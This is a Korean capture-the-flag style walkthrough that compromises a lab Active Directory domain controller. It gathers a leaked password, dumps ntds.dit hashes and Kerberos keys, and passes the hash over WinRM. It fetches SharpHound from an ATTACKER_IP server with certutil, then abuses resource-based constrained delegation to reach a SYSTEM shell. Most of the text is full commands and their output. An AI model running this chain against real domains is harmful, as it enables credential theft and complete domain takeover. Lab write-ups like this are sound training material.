






## 정보 수집
포트 스캔을 수행으로 resourced.local 도메인이 사용 중인 것을 발견.
```
└─$ ports=$(nmap -p- --min-rate=1000 -T4 -Pn 192.168.236.175 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
└─$ nmap -p$ports -sC -sV -Pn 192.168.236.175
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-13 06:28 EDT
Nmap scan report for 192.168.236.175
Host is up (0.34s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-13 10:28:23Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site:Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: resourced.local0., Site:Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=ResourceDC.resourced.local
| Not valid before: 2026-08-12T10:08:16
|_Not valid after:  2027-02-11T10:08:16
| rdp-ntlm-info: 
|   Target_Name: resourced
|   NetBIOS_Domain_Name: resourced
|   NetBIOS_Computer_Name: RESOURCEDC
|   DNS_Domain_Name: resourced.local
|   DNS_Computer_Name: ResourceDC.resourced.local
|   DNS_Tree_Name: resourced.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-13T10:29:17+00:00
|_ssl-date: 2026-08-13T10:29:56+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RESOURCEDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-08-13T10:29:17
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.33 seconds
```

enum4linux를 사용해서 사용자 계정 발견. "V.Ventz:HotelCalifornia194!"
```
└─$ enum4linux -U 192.168.236.175                                                      
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Aug 13 06:17:28 2026
======================================( Users on 192.168.236.175 )======================================

index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xf72 RID: 0x457 acb: 0x00020010 Account: D.Durant       Name: (null)    Desc: Linear Algebra and crypto god
index: 0xf73 RID: 0x458 acb: 0x00020010 Account: G.Goldberg     Name: (null)    Desc: Blockchain expert
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf6d RID: 0x452 acb: 0x00020010 Account: J.Johnson      Name: (null)    Desc: Networking specialist
index: 0xf6b RID: 0x450 acb: 0x00020010 Account: K.Keen Name: (null)    Desc: Frontend Developer
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xf6c RID: 0x451 acb: 0x00000210 Account: L.Livingstone  Name: (null)    Desc: SysAdmin
index: 0xf6a RID: 0x44f acb: 0x00020010 Account: M.Mason        Name: (null)    Desc: Ex IT admin
index: 0xf70 RID: 0x455 acb: 0x00020010 Account: P.Parker       Name: (null)    Desc: Backend Developer
index: 0xf71 RID: 0x456 acb: 0x00020010 Account: R.Robinson     Name: (null)    Desc: Database Admin
index: 0xf6f RID: 0x454 acb: 0x00020010 Account: S.Swanson      Name: (null)    Desc: Military Vet now cybersecurity specialist
index: 0xf6e RID: 0x453 acb: 0x00000210 Account: V.Ventz        Name: (null)    Desc: New-hired, reminder: HotelCalifornia194!
```

SMB로 조회 가능한 공유 디렉토리 발견.
```
└─$ crackmapexec smb 192.168.236.175 -u V.Ventz -p HotelCalifornia194! --shares
SMB         192.168.236.175 445    RESOURCEDC       [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESOURCEDC) (domain:resourced.local) (signing:True) (SMBv1:False)
SMB         192.168.236.175 445    RESOURCEDC       [+] resourced.local\V.Ventz:HotelCalifornia194! 
SMB         192.168.236.175 445    RESOURCEDC       [+] Enumerated shares
SMB         192.168.236.175 445    RESOURCEDC       Share           Permissions     Remark
SMB         192.168.236.175 445    RESOURCEDC       -----           -----------     ------
SMB         192.168.236.175 445    RESOURCEDC       ADMIN$                          Remote Admin
SMB         192.168.236.175 445    RESOURCEDC       C$                              Default share
SMB         192.168.236.175 445    RESOURCEDC       IPC$            READ            Remote IPC
SMB         192.168.236.175 445    RESOURCEDC       NETLOGON        READ            Logon server share 
SMB         192.168.236.175 445    RESOURCEDC       Password Audit  READ            
SMB         192.168.236.175 445    RESOURCEDC       SYSVOL          READ            Logon server share
```

Password Audit 디렉토리에서 ntds.dit 파일을 발견했지만, 용량이 너무 커서 다운로드가 불가했음
```
└─$ smbclient //192.168.236.175/Password\ Audit -U V.Ventz                   
Password for [WORKGROUP\V.Ventz]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Oct  5 04:49:16 2021
  ..                                  D        0  Tue Oct  5 04:49:16 2021
  Active Directory                    D        0  Tue Oct  5 04:49:15 2021
  registry                            D        0  Tue Oct  5 04:49:16 2021

                7706623 blocks of size 4096. 2635391 blocks available
smb: \> cd "Active Directory"
smb: \Active Directory\> ls
  .                                   D        0  Tue Oct  5 04:49:16 2021
  ..                                  D        0  Tue Oct  5 04:49:16 2021
  ntds.dit                            A 25165824  Mon Sep 27 07:30:54 2021
  ntds.jfm                            A    16384  Mon Sep 27 07:30:54 2021

                7706623 blocks of size 4096. 2635391 blocks available
smb: \Active Directory\> get ntds.dit
parallel_read returned NT_STATUS_IO_TIMEOUT
smb: \Active Directory\> getting file \Active Directory\ntds.dit of size 25165824 as ntds.dit SMBecho failed (NT_STATUS_CONNECTION_DISCONNECTED). The connection is disconnected now
```

SMB 공유 디렉토리를 마운트 한 뒤 파일 다운로드가 가능했음.



그 후에 SYSTEM과 SECURITY도 발견하여 다운로드함.


impacket-secretsdump 툴을 이용해 사용자 NTLN 해시값 추출.
```
└─$ impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9298735ba0d788c4fc05528650553f94
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
G.Goldberg:1112:aad3b435b51404eeaad3b435b51404ee:62e16d17c3015c47b4d513e65ca757a2:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:73410f03554a21fb0421376de7f01d5fe401b8735d4aa9d480ac1c1cdd9dc0c8
Administrator:aes128-cts-hmac-sha1-96:b4fc11e40a842fff6825e93952630ba2
Administrator:des-cbc-md5:80861f1a80f1232f
RESOURCEDC$:aes256-cts-hmac-sha1-96:b97344a63d83f985698a420055aa8ab4194e3bef27b17a8f79c25d18a308b2a4
RESOURCEDC$:aes128-cts-hmac-sha1-96:27ea2c704e75c6d786cf7e8ca90e0a6a
RESOURCEDC$:des-cbc-md5:ab089e317a161cc1
krbtgt:aes256-cts-hmac-sha1-96:12b5d40410eb374b6b839ba6b59382cfbe2f66bd2e238c18d4fb409f4a8ac7c5
krbtgt:aes128-cts-hmac-sha1-96:3165b2a56efb5730cfd34f2df472631a
krbtgt:des-cbc-md5:f1b602194f3713f8
M.Mason:aes256-cts-hmac-sha1-96:21e5d6f67736d60430facb0d2d93c8f1ab02da0a4d4fe95cf51554422606cb04
M.Mason:aes128-cts-hmac-sha1-96:99d5ca7207ce4c406c811194890785b9
M.Mason:des-cbc-md5:268501b50e0bf47c
K.Keen:aes256-cts-hmac-sha1-96:9a6230a64b4fe7ca8cfd29f46d1e4e3484240859cfacd7f67310b40b8c43eb6f
K.Keen:aes128-cts-hmac-sha1-96:e767891c7f02fdf7c1d938b7835b0115
K.Keen:des-cbc-md5:572cce13b38ce6da
L.Livingstone:aes256-cts-hmac-sha1-96:cd8a547ac158c0116575b0b5e88c10aac57b1a2d42e2ae330669a89417db9e8f
L.Livingstone:aes128-cts-hmac-sha1-96:1dec73e935e57e4f431ac9010d7ce6f6
L.Livingstone:des-cbc-md5:bf01fb23d0e6d0ab
J.Johnson:aes256-cts-hmac-sha1-96:0452f421573ac15a0f23ade5ca0d6eada06ae85f0b7eb27fe54596e887c41bd6
J.Johnson:aes128-cts-hmac-sha1-96:c438ef912271dbbfc83ea65d6f5fb087
J.Johnson:des-cbc-md5:ea01d3d69d7c57f4
V.Ventz:aes256-cts-hmac-sha1-96:4951bb2bfbb0ffad425d4de2353307aa680ae05d7b22c3574c221da2cfb6d28c
V.Ventz:aes128-cts-hmac-sha1-96:ea815fe7c1112385423668bb17d3f51d
V.Ventz:des-cbc-md5:4af77a3d1cf7c480
S.Swanson:aes256-cts-hmac-sha1-96:8a5d49e4bfdb26b6fb1186ccc80950d01d51e11d3c2cda1635a0d3321efb0085
S.Swanson:aes128-cts-hmac-sha1-96:6c5699aaa888eb4ec2bf1f4b1d25ec4a
S.Swanson:des-cbc-md5:5d37583eae1f2f34
P.Parker:aes256-cts-hmac-sha1-96:e548797e7c4249ff38f5498771f6914ae54cf54ec8c69366d353ca8aaddd97cb
P.Parker:aes128-cts-hmac-sha1-96:e71c552013df33c9e42deb6e375f6230
P.Parker:des-cbc-md5:083b37079dcd764f
R.Robinson:aes256-cts-hmac-sha1-96:90ad0b9283a3661176121b6bf2424f7e2894079edcc13121fa0292ec5d3ddb5b
R.Robinson:aes128-cts-hmac-sha1-96:2210ad6b5ae14ce898cebd7f004d0bef
R.Robinson:des-cbc-md5:7051d568dfd0852f
D.Durant:aes256-cts-hmac-sha1-96:a105c3d5cc97fdc0551ea49fdadc281b733b3033300f4b518f965d9e9857f27a
D.Durant:aes128-cts-hmac-sha1-96:8a2b701764d6fdab7ca599cb455baea3
D.Durant:des-cbc-md5:376119bfcea815f8
G.Goldberg:aes256-cts-hmac-sha1-96:0d6ac3733668c6c0a2b32a3d10561b2fe790dab2c9085a12cf74c7be5aad9a91
G.Goldberg:aes128-cts-hmac-sha1-96:00f4d3e907818ce4ebe3e790d3e59bf7
G.Goldberg:des-cbc-md5:3e20fd1a25687673
[*] Cleaning up...
```

crackmapexec 툴을 이용해 WinRM에 계정/NTLM 해시로 인증을 시도.
```
└─$ crackmapexec winrm 192.168.236.175 -u users -H hash
SMB         192.168.236.175 5985   RESOURCEDC       [*] Windows 10 / Server 2019 Build 17763 (name:RESOURCEDC) (domain:resourced.local)
HTTP        192.168.236.175 5985   RESOURCEDC       [*] http://192.168.236.175:5985/wsman
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       192.168.236.175 5985   RESOURCEDC       [+] resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808 (Pwn3d!)
```

## 초기 침투

위에서 찾은 NTLM 해시값과 계정으로 WinRM로그인이 가능했으며, Local.txt를 확인함.


/usr/share/sharphound 경로에서 http 서버 오픈.
```
┌──(kali㉿kali)-[/usr/share/sharphound]
└─$ ls
SharpHound.exe  SharpHound.exe.config  SharpHound.pdb  SharpHound.ps1
└─$ python -m http.server 80       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

certutil 명령어를 사용해 파일 다운로드 한 뒤 실행.
```
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> certutil -f -urlcache http://ATTACKER_IP/SharpHound.exe SharpHound.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> ls


    Directory: C:\Users\L.Livingstone\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/13/2026   3:49 AM        1318912 SharpHound.exe


*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> ./SharpHound.exe

<snip>

*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> ls


    Directory: C:\Users\L.Livingstone\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        8/13/2026   3:50 AM          27842 20260813035026_BloodHound.zip
-a----        8/13/2026   3:50 AM           1260 N2NkZDYyMzItY2UxZi00N2ZkLTg4ZmQtNThlNjJlZDQ1NzJh.bin
-a----        8/13/2026   3:49 AM        1318912 SharpHound.exe


*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> download 20260813035026_BloodHound.zip
```

BloodHound를 통해 L.Livingstone계정이 DC(RESOURCEDC.RESOURCED.LOCAL)에 대해 GenericALL 권한이 있는 것을 확인. 


## 권한 상승
DC-SYNC 공격을하기 위해 인증에 사용할 수 있는 신뢰되는 컴퓨터를 만드어야함.
impacket-addcomputer툴을 이용해 신뢰되는 컴퓨터 생성.
```
└─$ impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.236.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'jiny' -computer-pass 'jiny'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account jiny$ with password jiny.
```

Get-ADcomputer명령어로 사용자 생성확인.
```
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> Get-ADcomputer jiny


DistinguishedName : CN=jiny,CN=Computers,DC=resourced,DC=local
DNSHostName       :
Enabled           : True
Name              : jiny
ObjectClass       : computer
ObjectGUID        : 4b93d876-8ced-45ee-b215-456f947d27b5
SamAccountName    : jiny$
SID               : S-1-5-21-537427935-490066102-1511301751-4101
UserPrincipalName :
```

이 계정을 추가했으니 이제 위임 권한을 관리하는 데 도움이 되는 파이썬 스크립트가 필요합니다.  rbcd.pymsDS-AllowedToActOnBehalfOfOtherIdentity 파일을 복사해서 새 컴퓨터 계정에 설정.

Kerberos 인증을 공격자 PC로 위임하기 위해 rbcd툴을 이용해 pymsDS-AllowedToActOnBehalfOfOtherIdentity 파일을 복사해서 새 컴퓨터 계정에 설정.
```
└─$ wget https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py
└─$ sudo python rbcd.py -dc-ip 192.168.236.175 -t RESOURCEDC -f 'jiny' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Starting Resource Based Constrained Delegation Attack against RESOURCEDC$
[*] Initializing LDAP connection to 192.168.236.175
[*] Using resourced\l.livingstone account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `jiny` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `RESOURCEDC`
[*] Delegation rights modified succesfully!
[*] jiny$ can now impersonate users on RESOURCEDC$ via S4U2Proxy
```

생성된 계정에 관리자 권한이 부여되었으므로 impacket-getST 툴로 관리자 서비스 티켓 요청.
```
└─$ impacket-getST -spn cifs/resourcedc.resourced.local resourced/jiny\$:'jiny' -impersonate Administrator -dc-ip 192.168.236.175
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
```

KRBRCCNAME은 환경 변수에 티케을 설정
```
└─$ export KRB5CCNAME=/home/kali/Desktop/pg/ad/resourced/Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache
```

hosts 파일에 컴퓨터가 DC를 찾을수있도록 IP 및 도메인 설정.
```
└─$ sudo sh -c 'echo "192.168.236.175 resourcedc.resourced.local" >> /etc/hosts'
```

impacket-psexec 툴의 -k옵션(Kerberos 인증 사용)을 사용하여 쉘 접속.
```
└─$ sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.236.175
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on resourcedc.resourced.local.....
[*] Found writable share ADMIN$
[*] Uploading file SsvgAalj.exe
[*] Opening SVCManager on resourcedc.resourced.local.....
[*] Creating service XFuU on resourcedc.resourced.local.....
[*] Starting service XFuU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2145]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```


